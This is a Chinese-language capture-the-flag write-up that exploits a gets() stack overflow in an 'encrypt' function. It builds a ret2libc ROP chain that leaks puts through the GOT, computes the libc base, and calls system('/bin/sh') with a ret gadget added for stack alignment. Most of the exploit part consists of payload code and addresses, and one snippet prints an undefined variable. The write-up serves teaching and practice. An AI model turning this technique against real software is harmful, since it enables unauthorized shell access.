



查看防护，发现有溢出空间。

查看反汇编代码

~~~asm
004009a0    int64_t encrypt()

004009c0        char var_58[0x48]
004009c0        *__builtin_memset(dest: &var_58, ch: 0, count: 0x30) = 0
004009cc        puts(str: "Input your Plaintext to be encrypted")
004009dd        gets(buf: &var_58)
004009dd        
00400aba        while (zx.q(x) u< strlen(&var_58))
00400a07            if (var_58[zx.q(x)] s> 0x60 && var_58[zx.q(x)] s<= 0x7a)
00400a21                var_58[zx.q(x)] ^= 0xd
00400a07            else if (var_58[zx.q(x)] s> 0x40 && var_58[zx.q(x)] s<= 0x5a)
00400a61                var_58[zx.q(x)] ^= 0xe
00400a47            else if (var_58[zx.q(x)] s> 0x2f && var_58[zx.q(x)] s<= 0x39)
00400aa1                var_58[zx.q(x)] ^= 0xf
00400aa1            
00400aae            x += 1
00400aae        
00400ad6        puts(str: "Ciphertext")
00400aee        return puts(str: &var_58)
~~~

这里是漏洞函数，关键代码是：

~~~asm
004009dd        gets(buf: &var_58)
~~~

本道题没有canary保护，所以gets一定可以产生溢出漏洞。

继续分析如何利用，本题目没有给出后门函数不能直接溢出，没有给出system不能直接构造rop链。我们发现代码中给出了put的相关函数，所以考虑利用libc。

**题目使用libc一定需要考虑版本，远程环境99.999%与本地环境不同**

libc版本已在网站的Q&A中给出，版本为libc-2.27.so。本人下载过后打开查看，之后通过查询libc database进一步确定libc版本。因为个人习惯于使用libc all in one下载libc过后通过patchelf绑定题目与libc从而可以控制不同题目绑定的libc版本，方便本地调试，毕竟远程不能动态调试。

首先确定堆多少溢出，由于有加密存在，不想考虑解密问题所以cyclic工具暂时放弃，手动分析。

~~~asm
004009d1  488d45b0           lea     rax, [rbp-0x50 {var_58}]
~~~

查看汇编代码var_58存在rbp-0x50，所以我们只需要溢出0x58即可覆盖到rip。

我们进行首次尝试，payload构造如下：

~~~python
pop_rdi = 0x400c83
put_got = 0x602020
put_plt = 0x4006e0
p.sendline(b'1') 
payload = b'A'*(0x58)+p64(pop_rdi)+p64(put_got)+p64(put_plt)
p.sendline(payload) 
~~~

发现成功打出了put的运行时地址，就是程序执行过后直接退出，那我们优化一下rop链使其再返回main函数。

~~~asm
pop_rdi = 0x400c83
put_got = 0x602020
put_plt = 0x4006e0
start = 0x400790
p.sendline(b'1') 
payload = b'A'*(0x58)+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(start)
~~~

之后我们需要抓取我们需要的这个地址。现在抓取的是byte类型并且是小端法存储，我们需要将他转化成int方便我们运算。

~~~asm
p.recvuntil(b"@\n")
put_real = p.recvuntil(b'\n',drop = True)
put_real_int = int.from_bytes(put_real, byteorder='little')
print(hex(put_libc_int))
~~~

打印成功证明我们成功抓取。

有了put的运行时地址我们就可以计算出libc的基址，从而计算出system和bin_sh的地址。之后我们再次构造rop链：

~~~python
payload = b'A'*(0x58)+p64(pop_rdi)+p64(bin_sh)+p64(system)
~~~

在本地运行发现还是不能拿到shell，通过gdb调试发现还是栈对齐问题。那我们就再优化一下

~~~python
payload = b'A'*(0x58)+p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)
~~~

成功获取shell

